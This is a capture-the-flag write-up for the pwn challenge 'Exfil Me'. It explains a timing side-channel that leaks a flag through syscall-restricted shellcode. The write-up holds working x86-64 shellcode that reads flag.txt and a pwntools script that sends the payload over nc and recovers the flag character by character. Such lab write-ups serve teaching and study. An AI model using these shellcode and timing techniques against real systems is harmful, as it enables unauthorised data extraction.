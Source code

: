 # Exfil Me
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-400-orange)

## Description
Even though you have your flag, there's no way to communicate with the outside world!

[exfilme.zip](https://ctf.mcpt.ca/media/problem/M29R_POPO43-CAVo-wid1MkgcIvYBDPlxVGvWaj_CTk/exfilme.zip)

## Solution
We get to run our own shellcode at `0x13371337000`. Sweet! Unfortunately, we can only use the `read`, `open`, and `exit` syscalls, so there appears to be no way to get us the flag. However, we can rely on a timing attack - in which we can guess the flag character by character, and pause for a long time if our guess is correct. Then, if our script runs for a long time, we know that our guess is correct. For example, if I guess that character 0 of the flag is 'F' (which is wrong), the program exits immediately. If instead, I guess 'C' (correct), the program should hang.

To do this, I tried to hang the program using an infinite loop, but that crashed the instance and the only way to fix it was to restart it. Instead, I settled for a for loop with 1 billion iterations - which takes well over 2 seconds to complete.

However, a typical for loop uses labels to determine where to jump to, something unavailable in shellcode.

*Edit: labels and jumping are possible in shellcode. I just didn't realize this while writing the exploit.*

```
label:
 cmp i, n                    ; compare i and n
 jge end_of_loop             ; jump if i >= n
 do stuff
 jmp label                   ; jump to start of loop
end_of_loop:
 do stuff
```
 
To overcome this absolute catastrophe, I had to use `cmov` (similar to `int a = condition ? 0 : 10000`) and store the starting address of the loop in a register, because our code is always loaded at `0x13371337000`.

The code would then look something like this:
```
mov rdx, 0
mov rcx, 1000000000     ; loop iterations
cmp byte[rax], bl       ; compare our guess against the flag
cmovne rcx, rdx         ; set 0 loop iterations if our guess != the right char
mov r12, 0x13371337067  ; the starting address of the loop
dec rcx                 ; i-- (aka the start of the loop)
cmp rcx, 0              ; compare rcx against 0
cmovle r12, rdx         ; if rcx <= 0 then set r12 to 0 (out of bounds memory, will crash when we jump)
jmp r12                 ; jump to r12 (start of loop) or 0 (if i <= 0), crashing the program
```

The rest of the code before this is to read the flag and set rax = address of character we're comparing, and bl = character we're guessing.


```as
main:
 mov eax, 2;                        syscall = open
 xor ebx, ebx;                      push("flag.txt\x00")
 push rbx;
 mov rbx, 0x7478742e67616c66;
 push rbx;
 mov rdi, rsp;                      param1 = "flag.txt"
 xor esi, esi;                      param2 = 0 ("r")
 xor edx, edx;                      param3 = 0 ("r")
 syscall                            int fd = open("flag.txt", "r", "r");
 mov rdi, rax;                      param1 = fd
 xor eax, eax;                      syscall = read
 mov rsi, 0x1337133a000;            param2 = &buf (0x1337133a000, known safe location)
 mov edx, 32;                       param3 = 32
 syscall;                           read(fd, &buf, 32)
 mov r12d, 0;                       $r12 = loop iterations if wrong character (0)
 mov r13d, 1;                       idk this was useless
 mov r14d, 0;                       $r14 = 0
 mov r15d, 1000000000               $r15 = loop iterations if correct character
 mov rax, 0x13371337070;            points to start of for loop
 mov rcx, rax;                      $rcx = start of for loop
 mov rax, 0x1337133a000;            $rax = &buf (from earlier)
*add rax, $index                    $rax = &buf[index]
*mov ebx, $char                     $rbx = char we're testing for
 cmp byte[rax], bl                  if (buf[index] == char we're testing for)
 cmovne r15, r12                        $r15 = 0 (loop zero times)
 dec r15                            for (int i = $r15;; i--) {
 cmp r15, 0                             if (i <= 0)
 cmovle rcx, r14                            $r14 = 0 (crash once we jump)
 jmp rcx                            }
```

The two lines marked with a star need to change between guesses, but all the other lines are identical.

```py
from pwn import *

context.arch = 'amd64'

shellcode = """
 mov eax, 2;
 xor ebx, ebx;
 push rbx;
 mov rbx, 0x7478742e67616c66;
 push rbx;
 mov rdi, rsp;
 xor esi, esi;
 xor edx, edx;
 syscall
 mov rdi, rax;
 xor eax, eax;
 mov rsi, 0x1337133a000;
 mov edx, 32;
 syscall;
 mov r12d, 0;
 mov r13d, 1;
 mov r14d, 0;
 mov r15d, 1000000000;
 mov rax, 0x13371337070;
 mov rcx, rax;
 mov rax, 0x1337133a000;"""

template = asm(shellcode)

"""
 cmp byte[rax], bl
 cmovne r15, r12
 dec r15
 cmp r15, 0
 cmovle rcx, r14
 jmp rcx
"""
template2 = b'\x38\x18\x4d\x0f\x45\xfc\x49\xff\xcf\x49\x83\xff\x00\x49\x0f\x4e\xce\xff\xe1'

flag = ""
import subprocess
import time
import sys
for index in range(len(flag), 32):
    for char in range(33, 126):
        print(flag + chr(char))
        pay = template + asm(f"add rax, {index}; mov ebx, {char}") + template2
        with open('in', 'wb') as f:
            f.write(pay + b'\n')
        try:
            subprocess.run("cat in | nc 15f728c.0x16.ink 30486", shell=True, timeout=2)
        except subprocess.TimeoutExpired:
            flag += chr(char)
            print("New char: " + flag)
            if chr(char) == '}':
                print("We found the flag!")
                sys.exit(0)
            time.sleep(6)
            break
        if char == 125:
            print("Uh oh, error")
            sys.exit(1)
```

This builds the shellcode and sends it to the server, guessing every character in every position. If we guess the right character, the subprocess timeout will kick in, causing a TimeoutExpired exception that we can catch. Then, we append it to the flag and pause for 6 seconds to allow the program to finish looping and crash before we start guessing again.

There is one small problem though - character 10 can't be guessed because `add rax, 10` adds a newline in our input, causing fgets to cut off the rest of our input. So at index 10, I had to stop the program, set the flag variable to the first 9 characters + a placeholder, and then continue running the program. By doing this, I hoped the flag contained some recognizable text that we can use to fill in character 10. If that wasn't possible, the shellcode could be modified without too much hassle for this special case, by doing something like setting rax to `0x13371337071` instead of `0x13371337070` and then only adding 9 instead of 10.

```
CTF{Ever_h_ard_of_BROP?}
We found the flag!
```

At this point, it's pretty obvious that the missing character is `e`.

Flag: `CTF{Ever_heard_of_BROP?}`
